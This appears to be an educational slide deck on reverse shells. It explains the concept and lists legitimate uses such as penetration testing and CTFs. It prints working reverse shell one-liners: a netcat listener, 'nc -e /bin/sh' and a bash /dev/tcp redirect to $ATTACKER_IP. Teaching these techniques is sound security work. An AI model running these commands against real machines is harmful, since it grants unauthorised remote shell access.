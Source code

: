 ```yaml
---
theme: default
---
```


<style>
  code {
    @apply text-xs;
  }
</style>

# Reverse Shells for fun and profit
@nodeselector

---

# Why?

Problem: You have limited access to a machine and you want to get a shell. Solution: Reverse shell.

Scenarios:
- **Penetration Testing**: Demonstrating potential vulnerabilities in a system with the owner's permission.
- **Educational Purposes**: Know your enemy. Learn how attackers might gain access to your systems.
- **Troubleshooting Remote Systems**: If you have a remote machine that's behind a firewall or NAT, and need interactive access in order to debug it, this can be a useful technique.
- **Capture The Flag (CTF) Challenges**: Used to solve tasks in controlled environments designed for learning and competition.

Disclaimer: Don't do anything illegal or unethical. Please.

---

# What is it

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.

```mermaid
graph TD
    A[Target] -->|Reverse Shell| B[Attacker]
```

For this to work, we must be able to establish a connection from the target machine to the attacker machine. But since we're talking about *egress* traffic, it's usually not blocked.

---

# Let's send it

Once we have a means to execute code on the target machine, we can send a reverse shell payload.

On the attacker machine:

```sh
nc -lvp 4444
```

On the target machine:

```sh
nc -e /bin/sh $ATTACKER_IP 4444
```

Or because we don't want to rely on the target machine having a version of netcat with exec support:

```sh
bash -i >& /dev/tcp/$ATTACKER_IP/4444 0>&1
```

Now we're living off the land and have zero dependencies! (outside of network egress)

---

# Concerns

- Traffic is not encrypted, though there are ways you could encrypt it. (e.g. netcat has some ssl support, you could use [stunnel](https://www.stunnel.org/), or ssh tunneling)